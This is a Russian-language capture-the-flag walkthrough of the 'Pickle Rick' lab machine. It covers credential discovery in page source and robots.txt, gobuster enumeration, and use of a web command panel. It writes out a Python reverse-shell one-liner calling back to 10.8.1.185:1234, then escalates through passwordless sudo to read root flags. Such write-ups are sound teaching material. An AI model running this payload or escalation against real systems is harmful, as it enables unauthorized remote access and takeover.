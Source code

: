 # Pickle Rick WriteUp (Easy) ✅

Запустив машину и перейдя по ip, мы видим страницу с текстом и картинкой&#x20;

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption><p>📌 Добавив в папку /etc/hosts с помощью команды <code>sudo nano /etc/hosts</code> ip машины и ее название, можно обращаться к этому адресу по названию (например rick.thm)</p></figcaption></figure>

Проверив текстовый файл **/robots.txt**, мы можем найти какое-то странное сообщение  (которое в будущем нам понадобится)&#x20;

<figure><img src="../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Также, просмотрев код сайта, мы можем заметить записку, в которой указано имя пользователя <mark style="color:blue;">**R1ckRul3s**</mark>

<figure><img src="../.gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>



Далее, используя инструмент <mark style="color:blue;">**gobuster**</mark>** ** (`gobuster dir -u pent.thm -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -x .php)` находим несколько скрытых файлов

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Конкретно в данному случае нас интересует файл **/login.php**, перейдя по которому мы попадаем на страницу авторизации

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

В качестве имени пользователя я ввёл ранее найденное имя <mark style="color:blue;">**R1ckRul3s**</mark>, а в качестве пароля - записку в файле **/robots.txt**

Пройдя авторизацию, мы переходим на страницу с командной строкой и несколькими вкладками, которые нам недоступны (впрочем, они и не нужны)

<figure><img src="../.gitbook/assets/image (6) (1).png" alt=""><figcaption><p>С помощью команды <mark style="color:blue;"><strong>ls</strong></mark> мы можем посмотреть, какие файлы находятся в нашем репозитории</p></figcaption></figure>

К сожалению, мы не имеем разрешения вывести содержимое текстового файла с помощью команды <mark style="color:blue;">**cat**</mark>, но введя в адресную строку **ip\_машины/название\_файла.txt** мы можем прочитать то, что в нём находится

🔎 **** Итак, первый ингредиент написан в файле **Sup3rS3cretPickl3Ingred.txt**

<figure><img src="../.gitbook/assets/image (1) (1).png" alt=""><figcaption></figcaption></figure>

Для того, чтобы подключиться к данной машине, используем **python3 reverse shell**&#x20;

`python3 -c 'import socket,subprocess,os;s=socket.socket(`[`socket.AF`](https://vk.com/away.php?to=http%3A%2F%2Fsocket.AF\&cc\_key=)`_INET,socket.SOCK_STREAM);s.connect(("10.8.1.185",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=`[`subprocess.call`](https://vk.com/away.php?to=http%3A%2F%2Fsubprocess.call\&cc\_key=)`(["/bin/sh","-i"]);'`

Запустив слушатель в терминале Linux, отправляем пейлоад в командную строку на сайте, затем получаем реверс шелл от лица пользователя **www-data**

&#x20;

<figure><img src="../.gitbook/assets/image (1) (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2) (2).png" alt=""><figcaption></figcaption></figure>

&#x20;

:mag\_right: Перейдя в директорию **/home**, мы можем найти папку **rick**, в которой и находится второй ингредиент

![](<../.gitbook/assets/image (3) (2).png>)

С помощью команды `sudo -l` мы можем узнать, какие sudo-права мы имеем как пользователь **www-data**

<figure><img src="../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

В данном случае нам доступны все команды пользователя **root** без пароля &#x20;

Пользуясь этим, мы можем просмотреть содержимое директории **/root** и вывести его в случае необходимости

Третий ингредиент как раз находится в директории **/root** в файле **3rd.txt**

Выводим содержимое файла и получаем последний флаг для данной машины&#x20;

<figure><img src="../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>
